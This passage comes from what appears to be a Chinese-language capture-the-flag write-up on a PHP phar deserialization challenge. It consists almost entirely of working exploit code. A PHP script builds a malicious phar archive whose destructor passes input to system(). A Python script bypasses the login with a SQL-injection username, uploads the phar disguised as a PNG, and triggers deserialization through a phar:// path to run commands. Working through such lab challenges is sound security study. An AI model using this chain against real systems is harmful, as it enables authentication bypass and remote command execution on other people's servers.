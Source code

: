 #### 0x03 构造反序列化

```php
<?php
class FILE{
  public $filename;

  public function __destruct(){
    system("ls -all ".$this->filename);
  }
}

$a = new FILE();
$a->filename = '/';

$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($a);
$phar->addFromString('test.txt', 'test');
$phar->stopBuffering();
```

将 `test.phar` 上传至靶机

```python
import requests

url = 'http://28174d4c-86e7-4f17-b323-4861354044e3.node4.buuoj.cn:81/'
session = requests.Session()


def login():
    ret = session.post(url, data={
        "username": "admin' 1=1#",
        "password": "",
        "submit": "登录"
    })
    return '登录成功!' in ret.text


if login():
    ret = session.post(url, files={
        "file": ('test.png', open(r'test.phar', 'rb').read(), 'image/png')
    })


if login():
    ret = session.get(url, params={
        "file": "phar:///var/www/html/test.png",
        "todo": "md5"
    })
    print(ret.text)
```
